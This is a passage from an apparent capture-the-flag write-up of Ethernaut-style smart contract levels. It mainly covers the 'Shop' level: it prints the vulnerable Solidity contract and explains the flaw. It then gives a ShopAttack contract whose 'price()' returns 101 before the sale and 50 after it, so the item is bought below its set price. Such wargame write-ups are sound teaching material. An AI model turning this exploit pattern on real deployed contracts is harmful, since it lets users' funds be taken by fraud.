 ```js
await contract.setWithdrawPartner(Address of Above contract)
```

## 21 Shop

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
interface Buyer {
  function price() external view returns (uint);
}
contract Shop {
  uint public price = 100;
  bool public isSold;
  function buy() public {
    Buyer _buyer = Buyer(msg.sender);
    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

To solve this challenge we need to buy the item for less price than the price in contract.

First we need to create a Buyer contract and we need to call `buy()` from the Buyer contract.

The Buyer contract should return a number that is greater than 100 in first call (`if (_buyer.price() >= price && !isSold) `) and less than 100 in next call in ` price = _buyer.price();`

We can't use any contract storage because the function state is `view` .

But we can use the storage of the Shop contract to return 2 different values for 1st and 2nd call .

Here is the exploit :

```solidity
contract ShopAttack {
    Shop shopcon;
    constructor(address _add) public {
        shopcon = Shop(_add);

    }
    function buyy() public {
        shopcon.buy();
    }
    function price() external view returns (uint) {
        if (shopcon.isSold()){
            return 50;
        }else {
            return 101;
        }
    }
}
```
